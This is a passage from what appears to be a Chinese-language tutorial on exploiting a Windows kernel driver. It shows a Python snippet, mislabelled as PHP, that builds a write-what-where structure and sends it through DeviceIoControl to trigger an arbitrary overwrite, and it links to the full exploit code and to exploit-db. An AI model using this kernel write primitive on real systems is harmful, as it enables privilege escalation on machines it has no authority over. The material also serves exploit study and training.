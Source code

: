 ```php
    write_what_where.Trigger = user_data_p
    # Pointer to overwrite with 0xfffffffe
    write_what_where.Where = where

    www = binascii.hexlify(bytes(bytearray(write_what_where)))
    print("[+] Write what where structure")
    print("  [>] Full structure: {}".format(b' '.join([www[i:i + 16] for i in range(0, 48, 16)])))
    print("  [>] What : 0xfffffffe")
    print("  [>] Where: {:08x}".format(write_what_where.Where))

    success = kernel32.DeviceIoControl(
        device_handle,
        ioctl_arbitrary_overwrite,
        byref(write_what_where),
        sizeof(write_what_where),
        0,
        0,
        byref(bytes_returned),
        None
    )

    if not success:
        print("  [-] Unable To Send DeviceIoControl")
        return
```

完整代码参考：<https://gist.github.com/klezVirus/e69c1e745a789e4b5d2b3c7ed02da765>

参考链接
----

<https://www.exploit-db.com/exploits/43929>  
<https://www.sysfiledown.com/>  
<https://d1nn3r.github.io/2019/02/23/windbgConnectVM/>  
[https://xz.aliyun.com/t/7282?time\_\_1311=n4%2BxnD0GDtGQi%3DNqx05%2BbDyi8DkIOKKDgjnoD&amp;alichlgref=https%3A%2F%2Fwww.google.com%2F](https://xz.aliyun.com/t/7282?time__1311=n4%2BxnD0GDtGQi%3DNqx05%2BbDyi8DkIOKKDgjnoD&alichlgref=https%3A%2F%2Fwww.google.com%2F)  
[https://github.com/10cks/OSR\_DeviceTree\_Vuln](https://github.com/10cks/OSR_DeviceTree_Vuln)